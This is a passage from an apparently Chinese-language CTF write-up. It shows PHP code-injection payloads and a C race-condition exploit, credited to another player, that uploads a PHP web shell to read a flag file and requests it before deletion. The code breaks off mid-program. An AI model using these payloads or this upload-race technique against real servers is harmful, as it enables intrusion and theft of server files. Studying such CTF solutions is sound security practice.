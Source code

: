 ```
?source&input=<?=phpinfo();
?source&input=<?=show_source('flag.php');
```

![image-20240408110125019](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240408110125019.png?imageSlim)

### [The Fast Falafel Shop]

文件上传

根据题目描述，结合给的源码，可判断为条件竞争

![image-20240408111042357](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240408111042357.png?imageSlim)

![image-20240408111003587](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240408111003587.png?imageSlim)

刚开始没打通，我以为是本国网速延迟导致.....然鹅是能通的.....

Minei3oat师傅写的c语言脚本

```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <string.h>
#include <unistd.h>

const char POST[] = "POST /contest.php HTTP/1.1\r\nHost: 52.59.124.14:5010\r\nContent-Type: multipart/form-data; boundary=---------------------------2293933683385722748470522066\r\nContent-Length: 413\r\n\r\n-----------------------------2293933683385722748470522066\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"ctf0_shell.php\"\r\nContent-Type: application/x-php\r\n\r\n<?php\r\necho file_get_contents('/var/www/html/flag.txt');\r\n?>\r\n\r\n-----------------------------2293933683385722748470522066\r\nContent-Disposition: form-data; name=\"submit\"\r\n\r\nSubmit!\r\n-----------------------------2293933683385722748470522066--\r\n\r\n";
const char GET[] = "GET /uploads/ctf0_shell.php HTTP/1.1\r\nHost: 52.59.124.14:5010\r\n\r\n";

int main() {
    // get sockets
    int post_socket = socket(AF_INET, SOCK_STREAM, 0);
    int get_socket = socket(AF_INET, SOCK_STREAM, 0);

    // connect them to the server
    struct sockaddr_in server;
    unsigned long addr;
    memset( &server, 0, sizeof (server));
    addr = inet_addr( "52.59.124.14" );
    memcpy( (char *)&server.sin_addr, &addr, sizeof(addr));
    server.sin_family = AF_INET;
    server.sin_port = htons(5010);

    connect(post_socket,(struct sockaddr*)&server, sizeof(server));
    connect(get_socket,(struct sockaddr*)&server, sizeof(server));

    // send requests
    send(post_socket, POST, sizeof(POST), 0);
    send(get_socket, GET, sizeof(GET), 0);

    // read answer
    char answer[1024];
    memset( &answer, 0, sizeof (answer));
    read(post_socket, answer, 1024);
    puts(answer);
    memset( &answer, 0, sizeof (answer));
    read(get_socket, answer, 1024);
```